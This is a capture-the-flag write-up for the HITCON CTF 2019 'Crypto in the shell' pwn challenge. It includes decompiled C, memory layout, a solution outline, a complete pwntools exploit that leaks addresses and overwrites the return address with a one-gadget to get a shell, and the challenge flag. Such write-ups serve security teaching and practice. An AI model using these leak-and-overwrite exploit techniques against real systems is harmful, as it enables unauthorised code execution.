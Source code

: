 ```yaml
---
layout: post
title: "HITCON CTF 2019 Quals: Pwn - Crypto in the shell"
modified: 2019-10-19
tags: hitconctf, hitconctf2019quals, pwn
---
```


This pwn challenge had a really short code, so it did not require too much reverse engineering efforts: it could encrypt the program's memory at any (relative) address and size with an unknown, but constant AES key and get the result of the encryption. This could be repeated at maximum of 32 times.

## The challenge

The main contains every functionality which needed for understanding the challenge:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  signed int iRound; // [rsp+8h] [rbp-28h]
  __int64 offs; // [rsp+10h] [rbp-20h]
  size_t size; // [rsp+18h] [rbp-18h]
  void *buf; // [rsp+20h] [rbp-10h]
  unsigned __int64 canary; // [rsp+28h] [rbp-8h]

  canary = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  readkey(); // reads key.txt into AESkey (so the key is constant)
  for ( iRound = 0; iRound <= 31; ++iRound )
  {
    printf("offset:");
    if ( scanf("%llu", &offs) != 1 )
      break;
    printf("size:");
    if ( scanf("%llu", &size) != 1 )
      break;
    if ( size )
    {
      size = (size & 0xFFFFFFFFFFFFFFF0LL) + 16;
      buf = &g_buf[offs];
      AESencrypt(AESkey, &iv, &g_buf[offs], size);
      write(1, buf, size);
    }
  }
  return 0;
}
```

The `.data` and `.bss` looked like this:

```
.data:0000000000202000 __data_start    db 0, 0, 0, 0, 0, 0, 0, 0 ; Alternative name is '__data_start'
.data:0000000000202008 __dso_handle    dq offset __dso_handle  ; DATA XREF: __do_global_dtors_aux+17↑r
...
.bss:0000000000202340 __bss_start     dq ?  // == stdout
.bss:0000000000202350 stdin@@GLIBC_2_2_5 dq ?
.bss:0000000000202360 stderr@@GLIBC_2_2_5 dq ?
.bss:0000000000202380 AESkey          db ?, ?, ?, ?, ?, ?, ?, ?, ?, ?, ?, ?, ?, ?, ?, ?
.bss:0000000000202390 iv              db ?, ?, ?, ?, ?, ?, ?, ?, ?, ?, ?, ?, ?, ?, ?, ?
.bss:00000000002023A0 g_buf           db 140h dup(?)
```

## The solution

* First we encrypt the AES key itself and get the encryption's result (thus the new AES key).
* Now we can decrypt locally any encryption result we get back
* We encrypt and leak `__dso_handle`'s value (addr = `0x202008`), so we can calculate the program's base address
  * this is needed as we can only write relative to `g_buf` which is on `.bss`
* We encrypt and leak `stderr`'s value (addr = `0x202360`), so we can calculate the `libc`'s base address
* We leak a stack address from `libc`, so we know where is the `iRound` loop variable and where is the return address stored
* We encrypt the `iRound`'s value which is fortunately a signed value, so we now can overwrite unlimited memory addresses
* We brute-force the return address byte-by-byte (but without touching the canary) by blindly encrypting the return address's value until we get the address of a one-gadget RCE

## The exploit

```python
# -*- coding: utf-8 -*-
from pwn import *
from Crypto.Cipher import AES

REMOTE = True

if REMOTE:
    p = remote("3.113.219.89", 31337)
else:
    p = process("./chall", aslr=True)
    
def query(relAddr, size=15):
    p.sendline(str(relAddr - bufAddr))
    p.sendlineafter("size:", str(size))
    return p.recvuntil("offset:", drop=True)

def enc(key, data, iv="\0"*16):
    return AES.new(key, AES.MODE_CBC, iv).encrypt(data)

def dec(key, data, iv="\0"*16):
    return AES.new(key, AES.MODE_CBC, iv).decrypt(data)

bssLeakAddr   = 0x202008
stderrAddr    = 0x202360
bufAddr       = 0x2023A0
ivAddr        = 0x202390 
keyAddr       = 0x202380
# a98:54c0│   0x7ffff7dd44c0 (__libc_argv) —▸ 0x7fffffffe4d8 —▸ 0x7fffffffe71f ◂— '/home/kt/ctf/hitcon19/crypto/chall'
key = query(keyAddr)
print "key = %r" % key

def leak(addr):
    return u64(dec(key, query(addr))[0:8])

stderr = leak(stderrAddr)
libcBase = stderr - 0x155555327680 + 0x155554f3b000
stackLeakAddr = libcBase + 0x3f04c0 # 0x15555532b4c0, 0x7ffff7dd44c0
print "stderr = 0x%x, libcBase = 0x%x, stackLeakAddr = 0x%x" % (stderr, libcBase, stackLeakAddr)

bssLeak = leak(bssLeakAddr)
prgBase = bssLeak - 0x555555756008 + 0x555555554000
bufAddr += prgBase # leak now works on absolute addresses
print "bssLeak = 0x%x, prgBase = 0x%x" % (bssLeak, prgBase)

stackArgvLeak = leak(stackLeakAddr)
loopVarAddr = stackArgvLeak - 0x7fffffffe4d8 + 0x7fffffffe3c8
retAddrAddr = stackArgvLeak - 0x7fffffffe4d8 + 0x7fffffffe3f8
print "stackArgvLeak = 0x%x, loopVarAddr = 0x%x, retAddrAddr = 0x%x" % (stackArgvLeak, loopVarAddr, retAddrAddr)

newLoopVar = query(loopVarAddr - 4)
print "new loop var: %r == %d" % (newLoopVar, u32(newLoopVar[0:4], sign="signed"))

# 0x7ffff7a05b97   retAddr     -->
# 0x7ffff7a332c5   oneGadget

oneGadgetAddr = libcBase + 0x4f2c5

oneGadgetBytes = p64(oneGadgetAddr)
for iByte in xrange(0,8):
    print "BRUTEFORCING RET ADDR BYTE #%d" % iByte
    while True:
        newRetAddrBytes = query(retAddrAddr + iByte)[0:8-iByte] # 0x97, 0x5b, 0xa0
        print "  new return address: %s (expected: %s)" % (newRetAddrBytes.encode('hex'), oneGadgetBytes.encode('hex'))
        if newRetAddrBytes[0] == oneGadgetBytes[iByte]:
            print "   => WIN!!!"
            break

p.sendline("ls")
p.sendline("ls")
p.sendline("ls /")
p.sendline("cat flag*")
p.sendline("cat /flag*")
p.sendline("cat /home/*/flag*")
p.interactive()
```

## The flag

```
hitcon{is_tH15_A_crypTO_cha11eng3_too00oo0oo???}
```